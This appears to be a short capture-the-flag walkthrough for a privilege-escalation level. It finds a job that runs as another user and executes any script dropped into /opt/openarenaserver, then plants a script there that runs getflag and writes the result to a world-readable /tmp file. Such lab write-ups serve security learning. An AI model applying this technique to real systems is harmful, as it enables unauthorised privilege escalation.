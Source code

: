 #received a message saying "You've got mail"
#check the mail folder location in the env variable

/usr/bin/env # output MAIL=/var/mail/level05

ls -l /var/mail/level05 # output su -c 'sh /usr/sbin/openarenaserver' - flag05 

#this file executes all files present in /opt/openarenaserver and deletes them right away. 
#we will create a script that runs getflag and add permissions for all users to read generated file /tmp/getflag
#in /opt/openarenaserver create file script.sh

rm -rf /tmp/getflag
getflag > /tmp/getflag
chmod 755 /tmp/getflag
